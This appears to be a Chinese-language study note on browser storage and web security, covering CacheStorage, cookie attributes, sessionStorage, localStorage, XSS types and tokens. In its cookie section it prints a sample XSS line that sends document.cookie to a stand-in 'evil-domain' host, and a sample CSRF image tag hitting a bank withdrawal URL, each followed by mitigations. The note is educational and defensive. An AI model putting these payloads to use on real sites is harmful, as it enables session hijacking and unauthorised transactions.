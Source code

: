 ### 1.cacheStorage

https://developer.mozilla.org/zh-CN/docs/Web/API/CacheStorage 

CacheStorage接口表示Cache对象的存储。它提供了一个ServiceWorker、其他类型worker或者window范围内可以访问到的所有命名cache的主目录（它并不是一定要和service workers一起使用，即使它是在service workers规范中定义的），并维护一份字符串名称到相应Cache对象的映射。

#### CacheStorage.match()

检查给定的 [`Request`](https://developer.mozilla.org/zh-CN/docs/Web/API/Request) 是否是 [`CacheStorage`](https://developer.mozilla.org/zh-CN/docs/Web/API/CacheStorage) 对象跟踪的任何 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象的键，并返回一个resolve为该匹配的 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) .

#### CacheStorage.has()

如果存在与 `cacheName` 匹配的 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象，则返回一个resolve为true的 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) .

#### CacheStorage.open()

返回一个 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) ，resolve为匹配  `cacheName` （如果不存在则创建一个新的cache）的 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象

#### CacheStorage.delete()

查找匹配 `cacheName` 的 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象，如果找到，则删除 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象并返回一个resolve为true的 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) 。如果没有找到 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象，则返回 `false`.

#### CacheStorage.keys()

返回一个 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) ，它将使用一个包含与 [`CacheStorage`](https://developer.mozilla.org/zh-CN/docs/Web/API/CacheStorage) 追踪的所有命名 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象对应字符串的数组来resolve. 使用该方法迭代所有 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象的列表。

### 2.Cookie

HTTP Cookie(也叫Web Cookie 或浏览器Cookie)是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器。通常它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

Cookie主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其他需要记录的信息）
- 个性化设置（如用户自定义设置、主题）
- 浏览器行为跟踪（如跟踪分析用户行为）

```js
Set-Cookie: <cookie名>=<cookie值>
```

#### 1.会话期Cookie

浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期Cookie不需要指定过期时间（`Expires`）或者有效期（Max-Age）

#### 2.持久性Cookie

持久性Cookie可以指定一个特定的过期时间（`Expires`）或有效期（`Max-Age`）。

```html
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

#### 3.Cookie的Secure和HttpOnly标记

标记为Secure的Cookie只应该通过被HTTPS协议加密过的请求发送给服务端。

为避免跨域脚本 ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)) 攻击，通过JavaScript的 [`Document.cookie`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie) API无法访问带有 `HttpOnly` 标记的Cookie，它们只应该发送给服务端

```html
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

#### 4.Cookie的作用域

`Domain` 标识指定了哪些主机可以接受Cookie。如果不指定，默认为[当前文档的主机](https://developer.mozilla.org/en-US/docs/Web/API/Document/location)（**不包含子域名**）。如果指定了`Domain`，则一般包含子域名。

`Path` 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 `%x2F` ("/") 作为路径分隔符，子路径也会被匹配。

#### 5.`SameSite` Cookies

`SameSite` Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（[CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF)）。

```js
Set-Cookie: key=value; SameSite=Strict
```

None

浏览器会在同站请求、跨站请求下继续发送cookies，不区分大小写。

**Strict**

浏览器将只发送相同站点请求的cookie(即当前网页URL与请求目标URL完全一致)。如果请求来自与当前location的URL不同的URL，则不包括标记为Strict属性的cookie。

Lax

在新版本浏览器中，为默认选项，Same-site cookies 将会为一些跨站子请求保留，如图片加载或者frames的调用，但只有当用户从外部站点导航到URL时才会发送。如link链接

#### 6.会话劫持和XSS

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly`类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

#### 7.跨站请求伪造（CSRF）

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

解决办法：

- 对用户输入进行过滤来阻止[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；

### 3.Session

解释Cookie,Session,Tokenhttps://juejin.im/post/5d01f82cf265da1b67210869

### 4.SessionStorage

- 页面会话在浏览器打开期间一直保持，并且重新加载或恢复页面仍会保持原来的会话。
- 在新标签或窗口打开一个页面时会复制顶级浏览会话的上下文作为新会话的上下文
- 打开多个相同的URL的Tabs页面，会创建各自的sessionStorage
- 关闭对应浏览器tab,会清除对应的sessionStorage

### 5.LocalStorage

只读的`localStorage` 属性允许你访问一个[`Document`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document) 源（origin）的对象 [`Storage`](https://developer.mozilla.org/zh-CN/docs/Web/API/Storage)；存储的数据将保存在浏览器会话中。`localStorage` 类似 [`sessionStorage`](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/sessionStorage)，但其区别在于：存储在 `localStorage` 的数据可以长期保留；而当页面会话结束——也就是说，当页面被关闭时，存储在 `sessionStorage` 的数据会被清除 。

### 6.Cross-site scripting（跨站脚本攻击）

跨站脚本攻击（Cross-site scripting，XSS）是一种安全漏洞，攻击者可以利用这种漏洞在网站上注入恶意的客户端代码。当被攻击者登陆网站时就会自动运行这些恶意代码，从而，攻击者可以突破网站的访问权限，冒充受害者。

#### 在以下2种情况下，容易发生 XSS 攻击：

1.数据从一个不可靠的链接进入到一个web应用程序

2.没有过滤掉恶意代码的动态内容被发送到Web用户。

恶意内容一般包括JavaScript,但是有时候也会包括HTML,Flash或其他浏览器可以执行的代码。

#### XSS 攻击可以分为3类：存储型（持久型）、反射型（非持久型）、DOM 型。

存储型XSS

注入型脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器上传回并执行。

反射性XSS

当用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。Web服务器将注入脚本，比如一个错误信息，搜索结果等 返回到用户的浏览器上。由于浏览器认为这个响应来自"可信任"的服务器，所以会执行这段脚本。

基于DOM的XSS

通过修改原始的客户端代码，受害者浏览器的DOM环境改变，导致有效载荷的进行，也就是说，页面本身并没有变化，但由于DOM环境被恶意修改，有客户端代码被包含进了页面，并且意外执行。

### 7.token加密

可以解决的问题：

1. Token 完全由应用管理，所以它可以避开同源策略
2. Token 可以避免 [CSRF 攻击](http://www.cnblogs.com/shanyou/p/5038794.html)
3. Token 可以是无状态的，可以在多个服务间共享

Token是服务端产生的，如果前端使用用户名/密码向服务端请求认证，服务端认证成功，那么在服务端会返回Token给前端。前端可以每次在请求时带上Token证明自己的身份。

https://juejin.im/post/5a6c60166fb9a01caf37a5e5

